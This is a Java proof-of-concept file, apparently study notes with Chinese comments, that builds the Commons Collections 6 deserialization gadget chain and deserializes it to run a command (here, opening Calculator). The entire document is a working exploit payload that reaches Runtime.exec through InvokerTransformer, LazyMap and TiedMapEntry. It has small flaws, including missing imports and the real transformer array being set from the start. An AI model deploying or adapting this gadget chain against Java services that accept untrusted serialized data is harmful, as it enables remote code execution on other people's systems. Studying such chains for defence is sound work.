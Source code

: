 ```java
import java.util.HashSet;
import java.util.Map;

public class CCC6 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc6("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);

    }
    static Object cc6(String args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{args})
        };
//传给这里
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
//        首先构造恶意的LazyMap
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

//        现在，我拿到了⼀个恶意的LazyMap对象outerMap，将其作为TiedMapEntry的map属性：
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
//        接着，为了调⽤TiedMapEntry#hashCode()，我们需要将 tme 对象作为HashMap 的⼀个key。注意，这⾥我们需要新建⼀个HashMap
// 不再使⽤原CommonsCollections6中的HashSet，直接使⽤HashMap
        Map expMap = new HashMap();
        expMap.put(tme,"valval");
        outerMap.remove("keykey");  //填坑操作
//        最后，我就可以将这个expMap作为对象来序列化了
//     将真正的transformers数组设置进来
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);



        return expMap;
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }
    }

```
